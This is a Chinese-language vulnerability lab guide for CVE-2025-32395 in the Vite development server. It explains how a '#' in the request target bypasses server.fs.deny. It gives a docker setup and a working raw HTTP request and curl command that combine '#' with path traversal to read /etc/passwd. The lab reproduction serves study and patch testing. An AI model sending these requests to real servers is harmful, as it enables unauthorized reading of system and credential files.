


# Vite开发服务器通过Hash字符绕过任意文件读取漏洞（CVE-2025-32395）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 6.2.6、6.1.5、6.0.15、5.4.18和4.5.13版本之前，`server.fs.deny`功能可以通过在URL中使用井号字符（`#`）来绕过。根据RFC 9112规范，`#`字符不允许出现在HTTP请求目标字段中。然而，Node.js和Bun并不会拒绝此类无效请求，而是将它们传递给用户代码。Vite的路径校验未考虑井号字符的影响，导致攻击者可以绕过文件访问限制，读取文件系统上的任意文件。

这个漏洞是[CVE-2025-30208](../CVE-2025-30208/README.zh-cn.md)补丁的绕过。

参考链接：

- <https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-32395>

## 环境搭建

执行以下命令启动Vite 6.2.5开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:5173`来访问Vite开发服务器。

## 漏洞复现

该漏洞允许攻击者利用HTTP请求目标中的非法井号字符来绕过`server.fs.deny`保护，从而读取服务器文件系统上的任意文件。

首先，向`http://your-ip:5173/@fs/etc/passwd`发送请求，验证对允许目录之外的文件的访问会被正确拦截。你应该收到403 Forbidden响应：



然后，发送以下包含井号字符（`#`）的HTTP请求。`#`会导致Vite的`server.fs.deny`校验失效，而路径穿越序列（`/../`）则会导航到目标文件：

```
GET /@fs/usr/src/#/../../../../../etc/passwd HTTP/1.1
Host: your-ip:5173
```

由于`#`通常被HTTP客户端视为URL片段分隔符，不会被发送到服务器，因此需要使用HTTP调试工具或curl的`--request-target`参数来发送该原始请求：

```
curl --request-target '/@fs/usr/src/#/../../../../../etc/passwd' http://your-ip:5173
```

服务器将成功返回`/etc/passwd`文件的内容：


